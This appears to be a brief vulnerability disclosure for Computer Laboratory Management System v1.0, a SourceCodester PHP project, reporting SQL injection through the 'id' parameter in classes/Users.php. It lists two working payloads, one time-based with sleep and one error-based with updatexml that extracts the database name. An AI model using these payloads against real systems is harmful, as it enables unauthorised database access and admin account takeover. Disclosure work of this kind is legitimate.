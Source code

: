 # blob
BUG_Author:
K1ngd0m3

Affected version:
Computer Laboratory Management System v1.0

Vendor:
https://www.sourcecodester.com/

Software:
https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html

Vulnerability File:
classes/user.php

Description:
computer Laboratory Management System v1.0 is vulnerable to sql injection via /classes/Users.php
The parameter “id” has not been handled correctly. Hackers can exploit this vulnerability to manipulate the system’s administrator account and gain full control over other user accounts’ information.
![image](https://github.com/adminininin/blob/assets/136336674/5a1744cb-e509-4d2a-972c-330d312bcafb)





POST parameter ‘id’ exists SQL injection vulnerability

Payload1:1' and sleep(10)#
![image](https://github.com/adminininin/blob/assets/136336674/d419484c-254b-4441-9b70-b95599a12d2a)
you can see the server sleep ten seconds
Payload2:1'or(updatexml(0,concat(0x5e,database()),0))
![image](https://github.com/adminininin/blob/assets/136336674/f9ccaa05-8542-42f8-8600-1f5128fe7e66)
you can see the db_name
